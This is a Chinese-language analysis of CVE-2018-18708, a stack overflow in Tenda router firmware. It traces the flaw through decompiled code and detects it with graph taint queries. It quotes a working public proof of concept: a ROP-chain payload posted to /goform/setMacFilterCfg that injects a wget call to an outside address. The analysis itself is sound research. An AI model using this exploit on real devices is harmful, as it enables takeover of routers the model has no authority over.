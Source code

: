 ```yaml
---
slug: 使用样例/cve-2018-18708
title: "CVE-2018-18708: 腾达路由器缓冲区溢出漏洞"
date: 2023-10-16
--- 
```


## 0x00 漏洞介绍

CVE-2018-18708，多款Tenda产品中的httpd存在缓冲区溢出漏洞。攻击者可利用该漏洞造成拒绝服务（覆盖函数的返回地址）。

附件：

[httpd 991088](/attachments/docs-cve-2018-18708/c847d716-1fd0-46c8-926d-9bbf2f014018.false)

## 0x01 固件逻辑分析

首先httpd会进行端口和 ip绑定，然后会调用`initWeb`函数对路由进行绑定。

```c
if ( initWeb_2E9EC(v9) >= 0 )
{
  ....
  ....
  ....
}
else
{
  puts("main -> initWebs failed");
  return -1;
}
```

在`initWeb`中首先进行了`handler`的绑定，这里绑定了`/goform`，`/cgi-bin`等路由，后面的`websFormHandler`即对应的处理函数

```c
if ( sub_29510(port, retries) >= 0 )
  {
    sub_179A8(&unk_DC618, 0, 0, R7WebsSecurityHandler, 1);
    sub_179A8("/goform", 0, 0, websFormHandler, 0);
    sub_179A8("/cgi-bin", 0, 0, webs_Tenda_CGI_BIN_Handler, 0);
    sub_179A8(&unk_DC618, 0, 0, websDefaultHandler, 2);
    init_register();
    sub_179A8("/", 0, 0, sub_2ECD0, 0);
    return 0;
  }
  else
  {
    printf("%s %d: websOpenServer failed\n", "initWebs", 499);
    return -1;
  }
```

在后续的`init_register` 对进入handler后分发进行处理的函数进行了注册

```c
int sub_42378()
{
  int v0; // r0

  sub_10120("TendaGetLongString", aspTendaGetLongString);
  sub_10120("aspTendaGetStatus", aspTendaGetStatus);
  regist_handlers_form("updateUrlLog", updateUrlLog);
  regist_handlers_form("SysStatusHandle", fromSysStatusHandle);
  regist_handlers_form("GetWanStatus", formGetWanStatus);
  regist_handlers_form("GetSysInfo", formGetSysInfo);
  regist_handlers_form("GetWanStatistic", formGetWanStatistic);
  regist_handlers_form("GetAllWanInfo", formGetAllWanInfo);
  regist_handlers_form("GetWanNum", formGetWanNum);
  sub_10120("aspGetWanNum", aspGetWanNum);
  regist_handlers_form("getPortStatus", formGetPortStatus);
  regist_handlers_form("GetSystemStatus", formGetSystemStatus);
  regist_handlers_form("GetRouterStatus", formGetRouterStatus);
  regist_handlers_form("setNotUpgrade", formsetNotUpgrade);
  sub_10120("aspGetCharset", aspGetCharset);
  regist_handlers_form("WizardHandle", fromWizardHandle);
  regist_handlers_form("fast_setting_get", form_fast_setting_get);
  regist_handlers_form("fast_setting_pppoe_get", form_fast_setting_pppoe_get);
  regist_handlers_form("fast_setting_wifi_set", form_fast_setting_wifi_set);
  regist_handlers_form("fast_setting_pppoe_set", form_fast_setting_pppoe_set);
  regist_handlers_form("getWanConnectStatus", formGetWanConnectStatus);
  regist_handlers_form("getProduct", GetProduct);
  regist_handlers_form("fast_setting_internet_set", form_fast_setting_internet_set);
  regist_handlers_form("usb_get", form_usb_get);
  v0 = regist_handlers_form("SysToolpassword", SysToolpassword);
```

即`POST goform/setMacFilterCfg` 会进下面注册的`formSetMacFilterCfg`函数中进行处理

```javascript
 regist_handlers_form("setMacFilterCfg", formSetMacFilterCfg);
```

## 0x02 漏洞分析

根据公开的漏洞信息，漏洞触发是在`sub_C24C0`函数中的strcpy处，看的出来是将a1直接没有判断长度拷贝到了a2+32中。我们继续向上跟踪：

1. 确定该漏洞的数据输入点来源于哪里。

2. 确认a1的长度是要大于a2+32的。

 ![](/attachments/docs-cve-2018-18708/8a020bf7-2a72-4218-a0c0-4401550a2e95.png)

我们向上进行交叉引用跟踪，可以看到这里v12也就是上个函数的a2的大小是固定的，大小为176。

 ![](/attachments/docs-cve-2018-18708/2d3cd699-e307-458d-8173-3493e84dd4ff.png " =895x")

再向上跟踪，我们发现一开始的strcpy的第二个参数的字符串来自于下面这个函数的返回值

 ![](/attachments/docs-cve-2018-18708/1e054597-ddc5-491e-90a1-7d064bc93b19.png)

结合公开poc，我们从poc中寻找一下是不是包含了这个字段

```python
import requests
from pwn import *
 
cmd="wget 192.168.11.35"
libc_base = 0xff58c000
system = libc_base + 0x5A270
mov_r0_ret_r3 = libc_base + 0x40cb8
pop_r3 = libc_base + 0x18298
 
payload = 'a'*176
payload+= p32(pop_r3) + p32(system) + p32(mov_r0_ret_r3) + cmd
 
url = "http://192.168.2.3/goform/setMacFilterCfg"
cookie = {"Cookie":"password=12345"}
data = {"macFilterType": "black", "deviceList": "\r" + payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```

发现`deviceList是post请求中的data里面json数据的一个字段，那么顺理成章sub_2BABC`的作用其实就是从json中读取数据，将结果保存在返回值中。

## 0x03 漏洞扫描

我们这里查询思路是找到source点`FUN_0002ba8c` 函数的返回追和sink点`strcpy` 第一个参数两个变量之间所有的路径，因为strcpy第2个参数如果来自于`FUN_0002ba8c`的返回值的话很可能会造成栈溢出

### 3.1 破壳平台

#### 3.11 查询入门

首先浅浅进行一个cypher语言入门 [《图数据库查询语言Cypher》](https://zhuanlan.zhihu.com/p/398323729)

简单来说查询的模式如下

```javascript
MATCH (n:节点类型{属性:"某种属性"})-[关系]-(m) RETURN *
```

用我们要查询的source点做一个例子，该语句就是来查询函数名为`FUN_0002ba8c`的函数节点

```javascript
MATCH (n:function{name:"FUN_0002ba8c"}) RETURN n
```

#### 3.22 查询过程

通过用户文档可知，我们可以通过平台提供的`call VQL.taintPropagation` 来进行漏洞查询

首先找到source点的id，我们寻找的条件如下：

1. 属性为identifier，也就是变量的节点
2. 调用该变量的函数为`FUN_0002ba8c`（callee = "FUN_0002ba8c" )
3. 该变量是调用函数的返回值(index = -1)

```javascript
MATCH (n:identifier) WHERE (n.callee = "FUN_0002ba8c" AND n.index=-1 ) WITH collect(id(n)) AS sourceSet 
RETURN sourceSet
```

同理我们可以找到`sink`点，这里我们关注的是strcpy的第2个参数，所以index = 1，这里index的下标是从0开始的

```javascript
MATCH (n:identifier) WHERE (n.callee = "strcpy" AND n.index=1 ) WITH collect(id(n)) AS sinkSet
RETURN sinkSet
```

最后我们把这三个命令用`` WITH` ``连接一下

```javascript
MATCH (n:identifier) WHERE (n.callee = "FUN_0002ba8c" AND n.index=-1 ) WITH collect(id(n)) AS sourceSet
MATCH (n:identifier) WHERE (n.callee = "strcpy" AND n.index=1 ) WITH sourceSet,collect(id(n)) AS sinkSet
CALL VQL.taintPropagation(sourceSet,sinkSet, [], [])
YIELD taintPropagationPath RETURN taintPropagationPath
```

以上就大功告成了

#### 3.23结果验证

通过执行上面的查询语句，可以从平台的语句分析处查看结果，查询到了漏洞函数的执行流。数据流从7处流向1处。

 ![](/attachments/docs-cve-2018-18708/3a0165d6-0a15-4beb-a9a9-c97ea2ca5bb8.png)
